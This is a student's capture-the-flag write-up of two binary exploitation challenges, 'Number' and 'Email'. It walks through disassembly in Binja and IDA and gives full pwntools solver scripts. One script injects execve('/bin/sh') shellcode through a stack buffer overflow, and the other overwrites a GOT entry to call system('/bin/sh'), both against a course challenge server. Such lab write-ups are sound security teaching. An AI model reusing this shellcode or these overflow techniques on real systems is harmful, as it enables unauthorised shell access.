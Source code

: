 ```yaml
---
tags:
  - offsec
---
```

_by Vaughn Valle_
## Writeups

### Number
The program, when run, asks us for a two inputs
![[Pasted image 20241119034855.png]]
#### Static Analysis with Binja
Upon inspection in Binja, we see the following lines in `main()`
![[Pasted image 20241119034428.png]]
We see two `fgets()` and a `print_answer()` call. Also note that `print_answer()` basically prints whatever we had in our 2nd input (`second`)
![[Pasted image 20241119035023.png]]
Adding variable names for simplicity
![[Pasted image 20241119040451.png]]
![[Pasted image 20241119035516.png]]
#### Shellcode Exploit
Now we can trigger unexpected behavior by injecting shellcode to the first prompt using `asm`.
```python
assembly_payload = [
"xor rax, rax",
"push rax",
"mov rbx, 0x68732f6e69622f",
"push rbx",
"mov rdi, rsp",
"push rax",
"push rdi",
"mov rsi, rsp",
"mov al, 0x3b",
"syscall"
]

```
Recall that in `main`, the `print_answer` function had `second` as an argument. If we can overflow its buffer and redirect it to the memory address of `first`, we can make it execute our injected shellcode from the previous step!

Now all we need is to figure out what the address of `first` is by checking the stack of `main()`
![[Pasted image 20241119040405.png]]

Knowing that the `second` buffer is `0x20-0x8`, it's buffer is 24 bytes. This is the size we will use for [[BOF]]
#### Solution
Hence, we can construct the ff. solver script with `pwntools`
```python
from pwn import *

local = False
binary = './number'

if not local:
    conn = remote('offsec-chalbroker.osiris.cyber.nyu.edu', 1291)
    conn.recvuntil(b':')
    conn.sendline('vqv9731')
else:
    conn = process(binary)

context.arch = "amd64"

conn.recvuntil(b'0x')
catch = conn.recvuntil(b' ')[:-1].decode()

# get address of leak + 0x8 to get to first
address = int.from_bytes(bytes.fromhex(catch), byteorder='big') + 0x8


assembly_payload = [
"xor rax, rax",
"push rax",
"mov rbx, 0x68732f6e69622f",
"push rbx",
"mov rdi, rsp",
"push rax",
"push rdi",
"mov rsi, rsp",
"mov al, 0x3b",
"syscall"
]

# concatenate and pack assembly commands to byte payload
bytes_assembly = b""
for command in assembly_payload:
    bytes_assembly += asm(command)

conn.recvuntil(b'>')
conn.sendline(bytes_assembly)

payload = b'A' * 24 + p64(address)

conn.recvuntil(b'>')
conn.sendline(payload)

conn.interactive()
```
### Email
Running the program, we see that it asks for 3 inputs
![[Pasted image 20241119042033.png]]

Interestingly, these inputs led to a segmentation fault

#### Static Analysis in Binja
First we inspect the `main()` function
![[Pasted image 20241119041301.png]]
![[Pasted image 20241119041314.png]]
Not much is unusual here other than the `send` function that seems to be defined
![[Pasted image 20241119041534.png]]
However, we can see here that this function basically assigns the the pointer `arg2` to `arg1`. Hence, we can potentially overwrite GOT entries and redirect to shell.

Recall that in main, we have 3 main inputs: `to`, `subject`, `message`
![[Pasted image 20241119043030.png]]
And that `send()` function has `rdi` and `rsi_3` as arguments both of which are tied to `message` and `subject` being copied for some reason

![[Pasted image 20241119043529.png]]
#### Switching to IDA
I don't really like how Binja decompiles `main()`. It is very convoluted and has a lot of variable assignments going on which makes it hard to understand. Switching to IDA, we can see a much more linear process
![[Pasted image 20241119044543.png]]
Here we can see that `to` is being split in half (`buf[0]` and `buf[1]`).
Looking at `send()` function in IDA:
![[Pasted image 20241119044712.png]]
The first half takes `message` as its input while the second half takes `subject`

$\therefore$ having `system() + puts()`, `cat flag.txt`, `/bin/sh`, as our inputs basically results as
```python
system(/bin/sh)
```
```bash
$ cat flag.txt
```

Now we just need the memory addresses of `_system` and `_puts` to do these operations.

![[Pasted image 20241119050228.png]]
![[Pasted image 20241119050153.png]]
Both are located at `0x4010e0` and `0x404020` respectively
#### Solution
We can create our solution script as such:
```python
from pwn import *

local = False
binary = './email'

if not local:
    conn = remote('offsec-chalbroker.osiris.cyber.nyu.edu', 1295)
    conn.recvuntil(b':')
    conn.sendline('vqv9731')
else:
    conn = process(binary)

context.arch = "amd64"

system = 0x4010e0
puts = 0x404020

conn.recvuntil(b': ')

payload = p64(system) + p64(puts)
conn.sendline(payload)

conn.recvuntil(b': ')

payload = b'cat flag.txt'
conn.sendline(payload)

conn.recvuntil(b': ')

payload = b'/bin/sh'
conn.sendline(payload)

conn.interactive()
```

> [!important]
> Binja really did a bad job of decompiling the `main()` function on this one. I will probably turn to IDA Free as my default as it's in the [AUR](https://aur.archlinux.org/packages/ida-free) anyway. The Binja decompilation took a lot of time off of me looking through what `main()` did with all the different variable assignments.